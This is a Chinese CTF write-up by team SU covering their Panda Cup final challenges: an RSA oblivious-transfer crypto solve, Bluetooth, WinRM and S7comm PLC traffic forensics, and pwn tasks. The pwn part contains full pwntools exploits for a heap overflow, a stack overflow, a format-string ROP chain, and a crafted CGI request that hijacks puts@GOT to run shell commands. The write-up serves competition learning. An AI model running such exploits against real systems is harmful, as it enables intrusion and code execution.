本次熊猫杯决赛我们 SU 取得了第一名 🏆的成绩.
感谢队里师傅们的辛苦付出！同时我们也在持续招人，欢迎发送个人简介至：suers_xctf@126.com 或者直接联系书鱼 QQ:381382770。
数据安全 OTTO 套了个rsa-OT协议的壳，考的东西很基础。对于transfer2，v2已知，建立两个方程做GCD即可；对于transfer1，由于v1未知但e很小，因此可以考虑消去v1之后coppersmith打，去掉flag头祖传板子梭哈。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 prefix = bytes_to_long(b"flag{" ) PR.<x,y> = PolynomialRing(Zmod(n1)) f = (m1[0 ] - prefix*256 ^16 + x)^e1 - (m1[1 ] - y)^e1 - x1[1 ] + x1[0 ] res = small_roots(f,bounds=(256 ^25 ,256 ^25 )) print (res)print (long_to_bytes(int (n1-res[0 ][0 ])))PR.<x> = PolynomialRing(Zmod(n2)) f1 = (m2[0 ] - x)^e2 - (v2 - x2[0 ]) f2 = (m2[1 ] - c[1 ] - x*c[0 ])^e2 - (v2 - x2[1 ]) def gcd (g1, g2 ): while g2: g1, g2 = g2, g1 % g2 return g1.monic() print (long_to_bytes(int (-gcd(f1, f2)[0 ])))
Bluetooth 打开看到报错，丢到010分析看到后面有一个压缩包
然后分析流量是一个xbox手柄的
1 https://www.partsnotincluded.com/understanding-the-xbox-360-wired-controllers-usb-data/
于是提取所有的数据出来
1 tshark.exe -r .\xbox.pcapng -e "btl2cap.payload" -T fields
发现前面的都一样，只有后面的这个位置不一样

脚本提取过程中发现，31位和29位字符集
排查一次请求跟响应会有重复的请求之后就是如下脚本
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 import re, timeimport osimport urllib.parse, urllib.requestwith open ("xbox.txt" ,"r" ,encoding="utf-8" ) as f: files=f.readlines() a=[] num=1 for file in files: if "a1010b813c849f77a98c" in file: a.append(file.replace("\n" ,"" )) num+=1 flag="" for i in range (0 ,len (a),6 ): print (a[i]) key =a[i].split("a1010b813c849f77a98c000000000" )[1 ][0 ] print (key) if key=="1" : flag+="1" if key=="3" : flag+="3" if key=="5" : flag+="5" print (flag.replace("1" ,"." ).replace("3" ,"-" ).replace("5" ," " ))flag1="" for i in range (0 ,len (a),6 ): if "5" == a[i][29 ]: flag1+="0" if "0" != a[i][31 ]: flag1+= a[i][31 ] print (flag1)
一个是云影，一个是莫斯
云影得到压缩包的password是AUCLWJQBUCIW
莫斯用来做AES解密
myerp 估计是非预期

http://www.qetx.top/posts/19553/

是谁偷偷偷走我的心
很明显是域控流量，筛选出HTTP流量发现涉及到winrm协议

https://gist.github.com/jborean93/d6ff5e87f8a9f5cb215cd49826523045/
找到一个解密脚本，非常好用，现在开始寻找NTLM
成功解密，Windows跑脚本会报错，Linux 则不会
1 2 3 4 5 joker@kali:/mnt/d/Projects/CTFProjects/CTF2024/熊猫杯/是谁偷偷偷走我的心$ python3 winrm_decrypt.py -n 579da618cfbfa85247acf1f800a280a4 getshell.pcapng No: 1014 | Time: 2024-06-06T10:24:15.289523 | Source: 192.168.106.1 | Destination: 192.168.106.170 <?xml version="1.0" ?> ...... joker@kali:/mnt/d/Projec
获取其中flag.txt内容



工控 ICS2 直接分析S7COMM协议内容，先建立了通信链路：

在下面几个包可以找到订单号：6ES7 841-0CC05-0YA5

同时，我们可以知道这台S7设备的ip为192.168.1.15，因此可以把它的流量单独过滤出来。这里攻击者进行了对password的不断爆破，我们需要找到他爆破成功的标志。
下面这是没成功的情况，有error code提示：
一直往下翻，找到没有报错的响应包：

同时去请求包里找到爆出的password：19253a012c602d66

S7-300对cpu的保护密码进行了加密，可以参考：https://blog.csdn.net/xsdfhh/article/details/113547469
写个解密脚本：
1 2 3 4 5 6 7 8 9 10 11 12 hex_data = "19253a012c602d66" byte_array = bytes .fromhex(hex_data) decoded_data = [0x20 ] * 8 decoded_data[0 ] = byte_array[0 ] ^ 0x55 decoded_data[1 ] = byte_array[1 ] ^ 0x55 for i in range (2 , 8 ): decoded_data[i] = byte_array[i] ^ 0x55 ^ byte_array[i - 2 ] password = '' .join(chr (b) for b in decoded_data) print (password)
这里就可以得到真实的cpu保护密码。后面攻击者做了个upload的操作，感觉没啥东西。接下来是要找到M区偏移量10的值，需要找写入流量write var指令。

用操作码过滤’s7comm.param.func == 5’，然后一条条找就行：
最后三个可见字符就是i#R
最终得到的flag就是
AI漏洞挖掘 panda 直接释放再申请就可以获得libc地址，随后看起来有两个地方有问题：
delete时最后一个chunk会被复制size填写为负数时存在堆溢出
第一种由于在delete时还会进行count检查，因此利用堆溢出打__free_hook即可。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 from pwn import *filename = './main' context.arch='amd64' context.log_level = "debug" context.terminal = ['tmux' , 'neww' ] local = 0 all_logs = [] elf = ELF(filename) libc = elf.libc if local: sh = process(filename) else : sh = remote('173.30.16.227' , 9999 ) def debug (params='' ): for an_log in all_logs: success(an_log) pid = util.proc.pidof(sh)[0 ] gdb.attach(pid, params) pause() choice_words = 'Enter your choice: ' menu_del = 4 del_index_words = 'Enter panda id to delete: ' menu_show = 3 show_index_words = '' def add (size, name, content ): sh.sendlineafter(choice_words, '1' ) sh.sendlineafter('Enter size: ' , str (size)) sh.sendafter('Enter panda name: ' , name) sh.sendafter('Enter panda content: ' , content) def delete (index=-1 ): sh.sendlineafter(choice_words, str (menu_del)) if del_index_words: sh.sendlineafter(del_index_words, str (index)) def show (index=-1 ): sh.sendlineafter(choice_words, str (menu_show)) if show_index_words: sh.sendlineafter(show_index_words, str (index)) def edit (index, name, content ): sh.sendlineafter(choice_words, '2' ) sh.sendlineafter('Enter panda id to edit: ' , str (index)) sh.sendlineafter('Enter panda name: ' , name) sh.sendafter('Enter panda content: ' , content) def leak_info (name, addr ): output_log = '{} => {}' .format (name, hex (addr)) all_logs.append(output_log) success(output_log) add(size=0x500 , name=b'aaa' , content=b'content' ) add(size=0x80 , name='name' , content='content' ) delete(index=0 ) add(size=0x500 , name=b'a' , content=b'z' ) show() sh.recvuntil('Name: ' ) sh.recvuntil('Name: ' ) libc_leak = u64(sh.recv(6 ).ljust(8 , b'\x00' )) leak_info('libc_leak' , libc_leak) libc.address = libc_leak - 0x1ecb61 leak_info('libc.address' , libc.address) add(size=-0x10 , name=b'aaa' , content=b'a' *0x10 ) add(size=0x10 , name=b'aaa' , content='bbb' ) add(size=0x10 , name=b'aaa' , content='bbb' ) add(size=0x10 , name=b'aaa' , content='bbb' ) add(size=0x10 , name=b'aaa' , content='bbb' ) delete(index=4 ) delete(index=3 ) add(size=0x50 , name=b'aaa' , content='bbb' ) payload = p64(0 )*3 + p64(0x41 ) + p64(libc.sym['__free_hook' ]) edit(index=2 , name=b'a' , content=payload) add(size=0x10 , name='/bin/sh\x00' , content=b'a' ) add(size=0x10 , name=p64(libc.sym['system' ]), content=b'a' ) delete(index=6 ) sh.interactive()
login
可以看到有两个功能，一个是输入密码，一个是输出输入的密码
可以看到有个read，而且是读到栈上并且长度是变量也就是我们输入的密码，前提是绕过校验
校验的返回值是一个数字，是从一个随机文件读出来的，一开始想着爆破，结果远程爆破的时候发现到后面居然是openerror，那么密码也就是-1了，所以直接栈溢出后门一把嗦
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 from pwn import* from time import* #p=process('./main') p=remote('173.30.16.213',9999) #sleep(5) def menu(idx): p.recvuntil('ch:') p.sendline(str(idx)) turn=0 while True: #print('turn:',turn) turn+=1 menu(1) p.recvuntil('passwd:') p.sendline(str(-1)) pos=p.recvline() print(pos) if b'success' in pos or b'open' in pos: break payload=b'a'*(0x26+4)+p32(0x08049e35) p.send(payload) p.interactive()
safestring
菜单三个功能，加密、解密、输出，输出的时候有格式化字符串，然后加密和解密一个是大小写字母+3一个-3
所以就是一个格式化字符串泄露地址，然后直接格式化字符串任意地址写劫持栈返回地址，因为字符串长度不超过31，所以我们要分多次打，直接改main的返回地址，然后用功能4return触发就行
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 from pwn import *from pwn import *libc=ELF('/lib/x86_64-linux-gnu/libc.so.6' ) p=remote('173.30.16.120' ,9999 ) def menu (idx ): p.recvuntil('>>' ) p.sendline(str (idx)) def deal (content ): for i in range (len (content)): x=ord (content[i]) if x>=ord ('a' ) and x<=ord ('z' ): x=x-3 if x<ord ('a' ): x+=26 if x>=ord ('A' ) and x<=ord ('Z' ): x=x-3 if x<ord ('A' ): x+=26 content=content[:i]+chr (x)+content[i+1 :] return content def vuln (content ): content=deal(content) menu(1 ) p.recvuntil('input text:' ) p.sendline(content) def done (aim,value ): content='%' +str (value)+'c' +'%14$hhnaaaa' content=content.ljust(0x10 ,'a' ) tmp='' for i in range (7 ): tmp=tmp+chr (aim%0x100 ) aim=aim//0x100 content=content+tmp content=deal(content) menu(1 ) p.recvuntil('input text:' ) print (content) p.sendline(content) menu(3 ) def attack (aim,value ): for i in range (6 ): print (i,hex (aim),hex (value)) done(aim,value%0x100 ) aim+=1 value=value//0x100 payload='%19$p' vuln(payload) menu(3 ) p.recvuntil('text result: ' ) libc_base=int (p.recvline()[2 :],16 )-0x24083 print ('libc_base:' ,hex (libc_base))payload='%7$p' vuln(payload) menu(3 ) p.recvuntil('text result: ' ) stack=int (p.recvline()[2 :],16 )+0x38 print ('stack:' ,hex (stack))payload='%9$p' vuln(payload) menu(3 ) p.recvuntil('text result: ' ) bss=int (p.recvline()[2 :],16 )-0x1616 print ('bss:' ,hex (bss))system=libc_base+0x52290 binsh=libc_base+libc.search(b'/bin/sh\x00' ).__next__() print ('system:' ,hex (system))print ('binsh:' ,hex (binsh))pop_rdi=bss+0x16b3 ret=bss+0x1645 print ('pop rdi:' ,hex (pop_rdi))attack(stack+0x10 ,binsh) attack(stack+0x18 ,system) attack(stack+8 ,pop_rdi) attack(stack,ret) p.interactive()
gateway 构造包比较麻烦，首先根据题意构造好request_method，query_string和script_name，。
注意到auth函数前面有一个URL解码，因此还需要额外编码一次。
随后有一个add、delete、edit的类似菜单堆的交互，但是没有漏洞。漏洞点在于如下部分：
1 snprintf (parsed_content, (size_t )"%s" , content, v6);
而snprintf的函数原型如下：
1 snprintf (s, maxlen, format);
可见snprintf函数的误用使得此处存在一个栈溢出和格式化字符串的任意利用。
而本题开启了canary，且无leak的方法，因此通过格式化字符串改puts函数的got表为system，随后即可通过程序中的打印函数来执行命令。
而nginx配置中get_flag路由即可访问/tmp/flag，因此执行cp /flag /tmp，即可通过get_flag路由获取flag
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 import socketfrom pwn import *ip = '127.0.0.1' port = '80' code = 'cp /flag /tmp' code = code + ';' code = code.ljust(30 , 'a' ) + ';' s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) s.connect((ip, int (port))) request = "GET /cgi-bin/note_handle%2572?action=add,print,get_flag&content={}\(@@%30$c%30$c%30$c%30$c%30$c%136c%14$hhn HTTP/1.1\r\n" .format (code) request += "Host: 192.168.228.21\r\n" request += "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36 Edg/126.0.0.0\r\n" request += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7\r\n" request += "X-Forwarded-For: 127.0.0.1\r\n" request += "Accept-Encoding: gzip, deflate, br\r\n" request += "Accept-Language: zh-CN,zh;q=0.9\r\n" request += "Connection: close\r\n" request += "\r\n" print (request)s.send(request.encode()) response = s.recv(0x2000 ) print (response.decode())s.close()